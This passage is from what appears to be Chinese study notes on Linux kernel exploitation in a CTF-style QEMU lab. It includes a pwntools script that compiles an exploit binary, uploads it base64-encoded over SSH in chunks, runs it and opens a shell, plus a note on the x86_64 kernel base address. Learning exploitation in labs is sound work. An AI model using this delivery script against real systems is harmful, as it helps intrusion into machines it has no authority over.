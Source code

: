         - ![](pic/2024-07-22-10-59-24.png)
    - 编写exp.c，之后需要将exp编译并上传到qemu环境中执行，从而实现漏洞利用，作者给出脚本，通过脚本可以通过ssh将编译好的exp上传到qemu，同时在其中执行exp，从而实现漏洞利用
      ```python
      from pwn import *
      #context.update(log_level='debug')

      HOST = "10.112.100.47"
      PORT =  1717

      USER = "pwn"
      PW = "pwn"

      def compile():
          log.info("Compile")
          os.system("musl-gcc -w -s -static -o3 oob.c -o exp")

      def exec_cmd(cmd):
          r.sendline(cmd)
          r.recvuntil("$ ")

      def upload():
          p = log.progress("Upload")

          with open("exp", "rb") as f:
              data = f.read()

          encoded = base64.b64encode(data)

          r.recvuntil("$ ")

          for i in range(0, len(encoded), 300):
              p.status("%d / %d" % (i, len(encoded)))
              exec_cmd("echo \"%s\" >> benc" % (encoded[i:i+300]))

          exec_cmd("cat benc | base64 -d > bout")
          exec_cmd("chmod +x bout")

          p.success()

      def exploit(r):
          compile()
          upload()

          r.interactive()

          return

      if __name__ == "__main__":
          if len(sys.argv) > 1:
              session = ssh(USER, HOST, PORT, PW)
              r = session.run("/bin/sh")
              exploit(r)
          else:
              r = process("./startvm.sh")
              print util.proc.pidof(r)
              pause()
              exploit(r)
      ```
# 关于linux内核加载基址
- Linux 内核的默认加载基址取决于架构和配置。
- 在 x86_64 架构上，常见的内核默认加载基址是 0xffffffff81000000。
